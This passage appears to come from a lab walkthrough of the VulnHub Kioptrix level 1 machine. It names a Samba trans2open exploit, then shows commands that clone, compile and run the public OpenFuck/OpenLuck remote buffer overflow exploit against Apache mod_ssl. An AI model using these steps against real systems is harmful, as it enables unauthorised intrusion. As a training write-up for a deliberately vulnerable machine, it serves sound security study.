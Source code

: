 On searching Google we can see exploits are available for this version of Samba. There seems to be an exploit called `trans2open` that could be used on the target.

## Exploitation

### Exploiting Apache

During the enumeration phase, an exploit called `OpenFuck` was discovered which could potentially exploit the vulnerability in the version of `mod_ssl` that is used by Apache. But on further digging it was found that this version of the exploit does not work anymore. In its place a newer version of the same exploit called `OpenLuck` is available.

[GitHub - heltonWernik/OpenLuck: OpenFuck exploit updated to Linux 2018 - Apache mod_ssl < 2.8.7 OpenSSL - Remote Buffer Overflow](https://github.com/heltonWernik/OpenLuck)

The exploit is written in C. After cloning the repository we need to compile the code using `gcc`.

```bash
# Clone Repository
git clone https://github.com/heltonWernik/OpenFuck.git

# Install Dependencies
sudo apt update && sudo apt install libssl-dev -y

# Compiling Code
gcc -o OpenFuck OpenFuck.c -lcrypto

# Running Exploit
./OpenFuck
```

![Apache Exploit 2|450](images/vulnhub-kioptrix-lvl1/apache-exploit-2.png)
